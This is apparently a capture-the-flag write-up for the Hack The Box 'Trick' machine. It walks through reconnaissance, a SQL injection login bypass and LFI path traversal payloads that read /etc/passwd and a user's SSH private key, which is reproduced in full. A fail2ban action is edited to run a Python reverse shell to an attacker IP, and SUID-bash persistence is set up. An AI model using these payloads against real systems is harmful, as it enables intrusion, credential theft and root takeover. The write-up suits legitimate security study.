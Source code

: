 
### Tools: nmap, gobuster, dig

### Vulnerabilities: sql injection, fail2ban

```console
└──╼ [★]$ sudo nmap -sS -sC -sV -T4 10.129.51.233
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-02 22:47 BST
Nmap scan report for 10.129.51.233
Host is up (1.1s latency).
Not shown: 996 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 61:ff:29:3b:36:bd:9d:ac:fb:de:1f:56:88:4c:ae:2d (RSA)
|   256 9e:cd:f2:40:61:96:ea:21:a6:ce:26:02:af:75:9a:78 (ECDSA)
|_  256 72:93:f9:11:58:de:34:ad:12:b5:4b:4a:73:64:b9:70 (ED25519)
25/tcp open  smtp?
|_smtp-commands: debian.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
53/tcp open  domain  ISC BIND 9.11.5-P4-5.1+deb10u7 (Debian Linux)
| dns-nsid: 
|_  bind.version: 9.11.5-P4-5.1+deb10u7-Debian
80/tcp open  http    nginx 1.14.2
|_http-title: Coming Soon - Start Bootstrap Theme
|_http-server-header: nginx/1.14.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 244.80 seconds
```

```console
└──╼ [★]$ dig axfr @10.129.51.233 trick.htb

; <<>> DiG 9.16.15-Debian <<>> axfr @10.129.51.233 trick.htb
; (1 server found)
;; global options: +cmd
trick.htb.		604800	IN	SOA	trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
trick.htb.		604800	IN	NS	trick.htb.
trick.htb.		604800	IN	A	127.0.0.1
trick.htb.		604800	IN	AAAA	::1
preprod-payroll.trick.htb. 604800 IN	CNAME	trick.htb.
trick.htb.		604800	IN	SOA	trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
;; Query time: 8 msec
;; SERVER: 10.129.51.233#53(10.129.51.233)
;; WHEN: Fri Sep 02 22:49:36 BST 2022
;; XFR size: 6 records (messages 1, bytes 231)

```

Add the following to /etc/hosts on the last line

```console
10.129.51.233 trick.htb root.trick.htb preprod-payroll.trick.htb
```

vulnerable to sql injection

![image](https://user-images.githubusercontent.com/105310322/188241207-944c530d-e2d6-4be6-a5dc-aead955439a0.png)

```console
└──╼ [★]$ gobuster dir -u http://preprod-payroll.trick.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt,db -q
/index.php            (Status: 302) [Size: 9546] [--> login.php]
/home.php             (Status: 200) [Size: 486]                 
/login.php            (Status: 200) [Size: 5571]                
/header.php           (Status: 200) [Size: 2548]                
/users.php            (Status: 200) [Size: 2197]                
/assets               (Status: 301) [Size: 185] [--> http://preprod-payroll.trick.htb/assets/]
/ajax.php             (Status: 200) [Size: 0]                                                 
/database             (Status: 301) [Size: 185] [--> http://preprod-payroll.trick.htb/database/]
/readme.txt           (Status: 200) [Size: 149]                                                 
/navbar.php           (Status: 200) [Size: 1382]                                                
/department.php       (Status: 200) [Size: 3926]                                                
/topbar.php           (Status: 200) [Size: 585]                                                 
/position.php         (Status: 200) [Size: 5919]                                                
/employee.php         (Status: 200) [Size: 2704]                                                
/payroll.php          (Status: 200) [Size: 3142]                                                
```
Gives username Enemigosss

![image](https://user-images.githubusercontent.com/105310322/188243435-1dcea327-7085-4041-a91f-c927b5264b8c.png)

' OR ' 1=-- 

Get us in and then navigate to users and change password. Password shown is SuperGucciRainbowCake

![image](https://user-images.githubusercontent.com/105310322/188243610-f96f4f5a-2d41-4896-86dd-f7793cddf920.png)


Add preprod-marketing.trick.htb to /etc/hosts

Takes us to marketing

![image](https://user-images.githubusercontent.com/105310322/188242703-983bfebe-f7bb-4ef3-a32a-79b5fb39340a.png)
```
└──╼ [★]$ ffuf -w /usr/share/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u http://preprod-marketing.trick.htb/index.php?page=FUZZ -v -fs 0
```
....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd


Gives us a user Michael

![image](https://user-images.githubusercontent.com/105310322/188243801-a2869c4c-48cc-4546-af41-64db271c9884.png)

....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//home/michael/.ssh/id_rsa

```console
-----BEGIN OPENSSH PRIVATE KEY----- 
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn NhAAAAAwEAAQAAAQEAwI9YLFRKT6JFTSqPt2/+7mgg5HpSwzHZwu95Nqh1Gu4+9P+ohLtz c4jtky6wYGzlxKHg/Q5ehozs9TgNWPVKh+j92WdCNPvdzaQqYKxw4Fwd3K7F4JsnZaJk2G YQ2re/gTrNElMAqURSCVydx/UvGCNT9dwQ4zna4sxIZF4HpwRt1T74wioqIX3EAYCCZcf+ 4gAYBhUQTYeJlYpDVfbbRH2yD73x7NcICp5iIYrdS455nARJtPHYkO9eobmyamyNDgAia/ Ukn75SroKGUMdiJHnd+m1jW5mGotQRxkATWMY5qFOiKglnws/jgdxpDV9K3iDTPWXFwtK4 1kC+t4a8sQAAA8hzFJk2cxSZNgAAAAdzc2gtcnNhAAABAQDAj1gsVEpPokVNKo+3b/7uaC DkelLDMdnC73k2qHUa7j70/6iEu3NziO2TLrBgbOXEoeD9Dl6GjOz1OA1Y9UqH6P3ZZ0I0 +93NpCpgrHDgXB3crsXgmydlomTYZhDat7+BOs0SUwCpRFIJXJ3H9S8YI1P13BDjOdrizE hkXgenBG3VPvjCKiohfcQBgIJlx/7iABgGFRBNh4mVikNV9ttEfbIPvfHs1wgKnmIhit1L jnmcBEm08diQ716hubJqbI0OACJr9SSfvlKugoZQx2Iked36bWNbmYai1BHGQBNYxjmoU6 IqCWfCz+OB3GkNX0reINM9ZcXC0rjWQL63hryxAAAAAwEAAQAAAQASAVVNT9Ri/dldDc3C aUZ9JF9u/cEfX1ntUFcVNUs96WkZn44yWxTAiN0uFf+IBKa3bCuNffp4ulSt2T/mQYlmi/ KwkWcvbR2gTOlpgLZNRE/GgtEd32QfrL+hPGn3CZdujgD+5aP6L9k75t0aBWMR7ru7EYjC tnYxHsjmGaS9iRLpo79lwmIDHpu2fSdVpphAmsaYtVFPSwf01VlEZvIEWAEY6qv7r455Ge U+38O714987fRe4+jcfSpCTFB0fQkNArHCKiHRjYFCWVCBWuYkVlGYXLVlUcYVezS+ouM0 fHbE5GMyJf6+/8P06MbAdZ1+5nWRmdtLOFKF1rpHh43BAAAAgQDJ6xWCdmx5DGsHmkhG1V PH+7+Oono2E7cgBv7GIqpdxRsozETjqzDlMYGnhk9oCG8v8oiXUVlM0e4jUOmnqaCvdDTS 3AZ4FVonhCl5DFVPEz4UdlKgHS0LZoJuz4yq2YEt5DcSixuS+Nr3aFUTl3SxOxD7T4tKXA fvjlQQh81veQAAAIEA6UE9xt6D4YXwFmjKo+5KQpasJquMVrLcxKyAlNpLNxYN8LzGS0sT AuNHUSgX/tcNxg1yYHeHTu868/LUTe8l3Sb268YaOnxEbmkPQbBscDerqEAPOvwHD9rrgn In16n3kMFSFaU2bCkzaLGQ+hoD5QJXeVMt6a/5ztUWQZCJXkcAAACBANNWO6MfEDxYr9DP JkCbANS5fRVNVi0Lx+BSFyEKs2ThJqvlhnxBs43QxBX0j4BkqFUfuJ/YzySvfVNPtSb0XN jsj51hLkyTIOBEVxNjDcPWOj5470u21X8qx2F3M4+YGGH+mka7P+VVfvJDZa67XNHzrxi+ IJhaN0D5bVMdjjFHAAAADW1pY2hhZWxAdHJpY2sBAgMEBQ== 
-----END OPENSSH PRIVATE KEY----- 
```
Put into an id_rsa file and login through ssh
```console
└──╼ [★]$ echo '-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAwI9YLFRKT6JFTSqPt2/+7mgg5HpSwzHZwu95Nqh1Gu4+9P+ohLtz
c4jtky6wYGzlxKHg/Q5ehozs9TgNWPVKh+j92WdCNPvdzaQqYKxw4Fwd3K7F4JsnZaJk2G
YQ2re/gTrNElMAqURSCVydx/UvGCNT9dwQ4zna4sxIZF4HpwRt1T74wioqIX3EAYCCZcf+
4gAYBhUQTYeJlYpDVfbbRH2yD73x7NcICp5iIYrdS455nARJtPHYkO9eobmyamyNDgAia/
Ukn75SroKGUMdiJHnd+m1jW5mGotQRxkATWMY5qFOiKglnws/jgdxpDV9K3iDTPWXFwtK4
1kC+t4a8sQAAA8hzFJk2cxSZNgAAAAdzc2gtcnNhAAABAQDAj1gsVEpPokVNKo+3b/7uaC
DkelLDMdnC73k2qHUa7j70/6iEu3NziO2TLrBgbOXEoeD9Dl6GjOz1OA1Y9UqH6P3ZZ0I0
+93NpCpgrHDgXB3crsXgmydlomTYZhDat7+BOs0SUwCpRFIJXJ3H9S8YI1P13BDjOdrizE
hkXgenBG3VPvjCKiohfcQBgIJlx/7iABgGFRBNh4mVikNV9ttEfbIPvfHs1wgKnmIhit1L
jnmcBEm08diQ716hubJqbI0OACJr9SSfvlKugoZQx2Iked36bWNbmYai1BHGQBNYxjmoU6
IqCWfCz+OB3GkNX0reINM9ZcXC0rjWQL63hryxAAAAAwEAAQAAAQASAVVNT9Ri/dldDc3C
aUZ9JF9u/cEfX1ntUFcVNUs96WkZn44yWxTAiN0uFf+IBKa3bCuNffp4ulSt2T/mQYlmi/
KwkWcvbR2gTOlpgLZNRE/GgtEd32QfrL+hPGn3CZdujgD+5aP6L9k75t0aBWMR7ru7EYjC
tnYxHsjmGaS9iRLpo79lwmIDHpu2fSdVpphAmsaYtVFPSwf01VlEZvIEWAEY6qv7r455Ge
U+38O714987fRe4+jcfSpCTFB0fQkNArHCKiHRjYFCWVCBWuYkVlGYXLVlUcYVezS+ouM0
fHbE5GMyJf6+/8P06MbAdZ1+5nWRmdtLOFKF1rpHh43BAAAAgQDJ6xWCdmx5DGsHmkhG1V
PH+7+Oono2E7cgBv7GIqpdxRsozETjqzDlMYGnhk9oCG8v8oiXUVlM0e4jUOmnqaCvdDTS
3AZ4FVonhCl5DFVPEz4UdlKgHS0LZoJuz4yq2YEt5DcSixuS+Nr3aFUTl3SxOxD7T4tKXA
fvjlQQh81veQAAAIEA6UE9xt6D4YXwFmjKo+5KQpasJquMVrLcxKyAlNpLNxYN8LzGS0sT
AuNHUSgX/tcNxg1yYHeHTu868/LUTe8l3Sb268YaOnxEbmkPQbBscDerqEAPOvwHD9rrgn
In16n3kMFSFaU2bCkzaLGQ+hoD5QJXeVMt6a/5ztUWQZCJXkcAAACBANNWO6MfEDxYr9DP
JkCbANS5fRVNVi0Lx+BSFyEKs2ThJqvlhnxBs43QxBX0j4BkqFUfuJ/YzySvfVNPtSb0XN
jsj51hLkyTIOBEVxNjDcPWOj5470u21X8qx2F3M4+YGGH+mka7P+VVfvJDZa67XNHzrxi+
IJhaN0D5bVMdjjFHAAAADW1pY2hhZWxAdHJpY2sBAgMEBQ==
-----END OPENSSH PRIVATE KEY-----' > id_rsa
```

We are in!

```console
└──╼ [★]$ ssh michael@10.129.51.233 -i id_rsa
Linux trick 4.19.0-20-amd64 #1 SMP Debian 4.19.235-1 (2022-03-17) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Sep  2 22:24:12 2022 from 10.10.16.8
michael@trick:~$ 
```

Now this next part is a little tricky and requires abusing fail2ban. Which is also a pretty neat way to gain root. The way fail2ban works is that it will ban an ip from accessing the network after a certain amount of ailed attempts. Instead we are going to make it run a reverse shell after an amount of incorrect logins.

Note: With how fail2ban works, you only get about 1 minute as root

```console
michael@trick:~$ sudo -l
Matching Defaults entries for michael on trick:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User michael may run the following commands on trick:
    (root) NOPASSWD: /etc/init.d/fail2ban restart
```
Navigate to /tmp and cp over the files and then edit the file.

```console
michael@trick:/tmp$ cp /etc/fail2ban/action.d/iptables-multiport.conf /tmp
michael@trick:/tmp$ vim iptables-multiport.conf 
```
I tried a bunch of different reverse shells but they kept failing to connect. Finally I got this python reverse shell to work.

```console
actionban = export RHOST="10.10.14.35";export RPORT=1234;python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")' 
```
After editing ve sure to have your nc listener ready and mv the file back and restart the fail2ban service.

```
michael@trick:/tmp$ mv iptables-multiport.conf /etc/fail2ban/action.d/
michael@trick:/tmp$ sudo /etc/init.d/fail2ban restart
[ ok ] Restarting fail2ban (via systemctl): fail2ban.service.
```
As soon as you restart the service go to town on failing authentication. I kept pressing enter until my listener finally caught it!

```console
└──╼ [★]$ ssh michael@10.129.53.72
michael@10.129.53.72's password: 
Permission denied, please try again.
michael@10.129.53.72's password: 
Permission denied, please try again.
michael@10.129.53.72's password: 
michael@10.129.53.72: Permission denied (publickey,password).
```
Awesome we are in! quickly cat the root flag!

```
└──╼ [★]$ nc -lvnp 1234
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.129.53.72.
Ncat: Connection from 10.129.53.72:43280.
# cat /root/root.txt
de94b9107c1d74a9877a605ecf2d0431
```
Originally I had was having too many issues with a reverse shell so I opted for changing the root.txt flag to the tmp folder. Which is still a win but it doesnt feel the same without gaining root.

```console
actionban = cat /root/root.txt > /tmp/root.txt && chmod 777 /tmp/root.txt
```
```console
michael@trick:/tmp$ cat root.txt
de94b9107c1d74a9877a605ecf2d0431
michael@trick:/tmp$ 
```

Another thing we can do is as soon as you gain root access is to create persistence by moving the /usr/bin/bash to /tmp and adding a suid bit.

```console
# mv /usr/bin/bash /tmp
# cd /tmp
cd /tmp
# chmod u+s bash
```
